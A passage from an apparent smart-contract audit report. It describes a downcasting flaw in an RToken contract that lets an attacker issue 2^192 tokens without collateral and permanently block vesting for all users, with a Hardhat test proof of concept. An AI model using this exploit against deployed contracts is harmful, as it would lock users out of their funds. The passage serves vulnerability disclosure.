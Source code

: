 ```sol
uint192 vestingEnd = whenFinished(amtRToken); // D18{block number}
```

### Proof of Concept

This PoC demonstrates that an attacker can call `issue(...)` without collateral tokens to modify `allVestAt` variable to an extreme value, such that all further issuances cannot be vested for all users.

Do note that the PoC is done with `totalSupply() == 0` case, so we supply `amtRToken` as a multiple of $2^{192}$. Even if there is an existing `totalSupply()`, we just need to calculate a value for `amtRToken >= 2^192` such that $\frac{\text{basketsNeeded} \times \text{amtRToken}}{totalSupply()} = 0$. This attack does not require `totalSupply()` be zero.

```sol
uint192 amtBaskets = uint192(
	totalSupply() > 0 ? mulDiv256(basketsNeeded, amtRToken, totalSupply()) : amtRToken
);
```

The `amount`, `baskets` and `quantities` values are also messed up, but it would not matter anyways...

Under 'Issuance and Slow Minting' tests in `RToken.test.ts`:

```sol
it('Audit: DoS by downcasting', async function () {
      const issueAmount: BigNumber = BigNumber.from(2n ** 192n)

      // Set basket
      await basketHandler.connect(owner).setPrimeBasket([token0.address], [fp('1')])
      await basketHandler.connect(owner).refreshBasket()

      // Attacker issues 2 ** 192, or a multiple of 2 ** 192 RTokens
      // This will cause allVestAt to be veryyyyy high, permanent DoS
      const tx = await rToken.connect(addr1)['issue(uint256)'](issueAmount)
      const receipt = await tx.wait()
      console.log(receipt.events[0].args)

      await token0.connect(addr2).approve(rToken.address, initialBal)
      const tx2 = await rToken.connect(addr2)['issue(uint256)'](initialBal)
      const receipt2 = await tx2.wait()
      console.log(receipt2.events[0].args)

      // one eternity later...
      await advanceTime('123456789123456789')
      // and still not ready
      await expect(rToken.connect(addr2).vest(addr2.address, 1))
        .to.be.revertedWith("issuance not ready")

    })
```

Run with:
